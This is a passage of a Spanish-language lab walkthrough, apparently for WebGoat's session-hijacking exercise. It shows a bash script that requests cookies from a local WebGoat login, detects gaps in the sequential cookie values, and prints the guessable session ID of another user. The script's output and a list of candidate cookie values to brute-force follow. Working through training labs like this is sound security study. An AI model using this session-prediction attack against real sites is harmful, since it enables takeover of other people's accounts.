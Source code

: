 Así que necesitamos que nuestro códgio pare justo cuando encuentre una diferencia de 2:

```bash
#!/bin/bash
limit=$2
diff=$4
for i in $(seq 1 $limit)
do 
	hijack_cookie=$(curl -i -s -k -X  'POST' \
		-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
		-H "Cookie: JSESSIONID=$1"  \
		--data-raw $'username=foo&password=bar' \
		'http://localhost:8080/WebGoat/HijackSession/login' \
		2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+')
	
	parte1=${hijack_cookie%-*}
	parte1=$((parte1))
	diferencia1=$(( parte1 - parte1_tmp ))		

	parte2=${hijack_cookie#*-}	
	parte2=$((parte2))
	diferencia2=$(( parte2 - parte2_tmp ))
	diferencia2_tmp=$diferencia2

	parte1_tmp=$parte1
	parte2_tmp=$parte2	
	
	if [ $diferencia1 -gt $diff ] && (($parte1 != $diferencia1)); then
		echo "hijack_cookie=$parte1($diferencia1)-$parte2_tmp($diferencia2)! ¡Alguien estuvo antes!"
		parte1_aumt=$((parte1-1))
		hijack_cookie_temp="hijack_cookie=$parte1_aumt-?"
		echo "¿hijack_cookie=$parte1_aumt-?"			
	  	break
	else
	  echo "hijack_cookie=$parte1_tmp($diferencia1)-$parte2_tmp($diferencia2)"
	fi	
	diferencia2_tmp=$diferencia2
	sleep $3
done
```

```bash
$ ./script.sh $JSESSIONID 100 0 1
hijack_cookie=4745395612611424145(4745395612611424145)-1686454262797(1686454262797)
hijack_cookie=4745395612611424147(2)-1686454262818(21)! ¡Alguien estuvo antes!
¿hijack_cookie=4745395612611424146-?
```

Entre la marca temporal de \#2 y de \#3 hay 20 posibilidades eso quiere decir que debemos intentar esas 20 posibilidades:

```plaintext
4745395612611419550-1686442464161
4745395612611419550-1686442464162
4745395612611419550-1686442464163
...
4745395612611419550-1686442464177
4745395612611419550-1686442464178
4745395612611419550-1686442464179
```

